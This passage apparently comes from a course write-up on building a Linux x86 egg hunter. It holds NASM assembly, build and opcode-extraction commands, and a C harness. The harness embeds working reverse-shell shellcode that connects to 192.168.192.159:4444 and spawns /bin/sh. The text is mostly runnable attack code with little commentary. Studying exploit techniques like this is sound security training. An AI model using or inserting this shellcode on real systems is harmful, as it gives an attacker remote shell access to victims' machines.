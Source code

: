 * Assemlby code is following:

```
global _start

_start:

XOR EDX, EDX                    ; clear EDX

NEXT_ADDRESS:                   ; label used for looping
  INC EDX                       ; increase EDX by 1

  CMP DWORD [EDX], 0x74303077   ; Compare 4 bytes with w00t
  JNZ SHORT NEXT_ADDRESS        ; if w00t not found, jump to NEXT_ADDRESS

  CMP dword [EDX+4], 0x74303077 ; if w00t found, compare next 4 bytes with w00t 
  JNZ SHORT NEXT_ADDRESS        ; if second w00t not found, jump to NEXT_ADDRESS

  ADD EDX, 0x8                  ; if two eggs are found, increase EDX + 8         
  JMP EDX                       ; jump to EDX + 8 address where shell code would be located

``` 

Assembly code can be compiled and linked with following commands:

```
nasm -f elf32 -o egghunter1.o egghunter1.nasm
ld -z execstack -o egghunter1 egghunter1.o
```

Following series of piped commands can be used to extract opcode:
```
objdump -d egghunter1 |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

* Skeleton code with Egg Hunter and reverse shell is following:

```
#include <stdio.h>

unsigned char egghunter[] = "\x31\xd2\x42\x81\x3a\x77\x30\x30\x74\x75\xf7\x81\x7a\x04\x77\x30\x30\x75\xee\x83\xc2\x08\xff\xe2";
unsigned char shellcode[] = "\x77\x30\x30\x74\x77\x30\x30\x74\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x66\xb8\x67\x01\xb3\x02\xb1\x01\xb2\x06\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x6a\x01\x31\xc9\x51\x68\xc0\xa8\xc0\x9f\x66\x68\x11\x5c\x66\x6a\x02\x89\xfb\x89\xe1\xb2\x16\xcd\x80\x31\xc0\x31\xdb\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\x89\xfb\xfe\xc9\xcd\x80\x75\xf4\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";
// 1st egg ------------------^^^^^^^^^^^^^^^^^
// 2nd egg -----------------------------------^^^^^^^^^^^^^^^

int main()
{
        int (*ret)() = (int(*)())egghunter;
        printf("Size of egghunter: %d bytes.\n", sizeof(egghunter)); 
        ret();
}
```
